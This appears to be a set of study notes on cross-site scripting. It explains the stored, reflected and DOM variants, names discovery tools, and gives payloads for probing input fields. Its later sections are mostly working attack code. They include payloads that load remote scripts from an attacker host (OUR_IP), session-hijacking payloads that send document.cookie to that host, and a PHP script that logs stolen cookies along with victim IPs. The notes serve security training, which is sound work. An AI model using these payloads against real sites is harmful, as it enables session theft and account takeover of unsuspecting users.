 **Stored XSS**

*Identify*:`<script>alert(window.origin)</script>`,`<script>print()</script>`

**Reflected XSS:**
- Non-Persistent XSS
- Reflected XSS vulnerabilities occur when our input reaches the back-end server and gets returned to us without being filtered or sanitized.
- *Identify*:`<script>alert(window.origin)</script>`,`<script>print()</script>`

**DOM XSS**

- Non-Persistent
- The `Source` is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.
- On the other hand, the `Sink` is the function that writes the user input to a DOM Object on the page. If the `Sink` function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used JavaScript functions to write to DOM objects are:

- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the `jQuery` library functions that write to DOM objects are:

- `add()`
- `after()`
- `append()`

**Identify**:`<img src="" onerror=alert(window.origin)>`

## XSS Discovery

Almost all Web Application Vulnerability Scanners (like Nessus, Burp Pro, or ZAP) have various capabilities for detecting all three types of XSS vulnerabilities.

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser).

`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`

### Manual

We can find huge lists of XSS payloads online, like the one on PayloadAllTheThings or the one in PayloadBox

### Code Review

The most reliable method of detecting XSS vulnerabilities is manual code review, which should cover both back-end and front-end code. If we understand precisely how our input is being handled all the way until it reaches the web browser, we can write a custom payload that should work with high confidence.

# Loading a Remote Script

<script src="http://OUR_IP/script.js"></script>

```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script>
```

```
[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ sudo php -S 0.0.0.0:80PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

```
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload.

## Session Hijacking

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

We can save the following PHP script as `index.php`, and re-run the PHP server again:

```
<?phpif (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```
sudo php -S 0.0.0.0:80
```


## References:

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss
- https://github.com/payloadbox/xss-payload-list
